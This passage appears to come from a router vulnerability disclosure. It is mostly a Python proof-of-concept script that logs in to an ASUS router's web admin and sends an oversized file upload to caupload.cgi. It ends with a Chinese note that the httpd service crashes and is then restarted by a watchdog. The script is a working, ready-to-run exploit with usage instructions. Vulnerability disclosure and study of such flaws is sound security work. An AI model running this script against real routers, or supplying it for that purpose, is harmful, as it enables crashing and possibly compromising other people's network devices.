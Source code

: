 ```python
		"Referer": "http://192.168.50.1/Main_Login.asp",
		"Content-Type": "application/x-www-form-urlencoded",
		"Content-Length": "161",
		"Cookie": "clickedItem_tab=0; hwaddr=A8:5E:45:DD:96:08; apps_last=; maxBandwidth=100; bw_rtab=INTERNET; asus_token=lRZ0RCBKRnYW8GBQzCI2wHPzB7F7DYU",
		"Connection": "close",
		"Upgrade-Insecure-Requests": "1"
	}

	auth = username+':'+passwd
	auth = base64.b64encode(auth.encode('utf-8')).decode()
	print('[*] login...')
	da = "group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=index.asp&login_authorization="+auth+"&login_captcha="
	r = requests.post(login_url,headers=hd,data = da, timeout=1000)
	cookie = r.headers['Set-Cookie'][11:-11]

	pd = 'Content-Disposition: form-data; name="file_ca"; filename=aaa\r\n'
	pd += '\r\n'
	pd += 'a'*0x2000

	attack_url = "http://"+ip+"/caupload.cgi"
	hd = {"Host": "192.168.50.1",
		"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
		"Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
		"Accept-Encoding": "gzip, deflate",
		"Referer": "http://192.168.50.1/Advanced_VPNClient_Content.asp",
		"Content-Type": "application/x-www-form-urlencoded; boundary=---------------------------90665545817618071411188093951",
		"Content-Length": str(len(pd)),
		"Cookie": "clickedItem_tab=0; hwaddr=A8:5E:45:DD:96:08; apps_last=; maxBandwidth=100; bw_rtab=INTERNET; asus_token="+cookie,
		"Connection": "close",
		"Upgrade-Insecure-Requests": "1"
	}
	print('[*] Attacking')
	r = requests.post(attack_url,headers=hd,data = pd, timeout=1000)
	
def usage():
	print("Usage: python poc.py routerip username password")

if __name__ == "__main__":
	if len(sys.argv) < 3:
		usage()
	else:
		attack(ip=sys.argv[1],username=sys.argv[2], passwd=sys.argv[3])
```

发送报文后httpd服务崩溃，但是由于存在守护进程马上就会重新启动服务
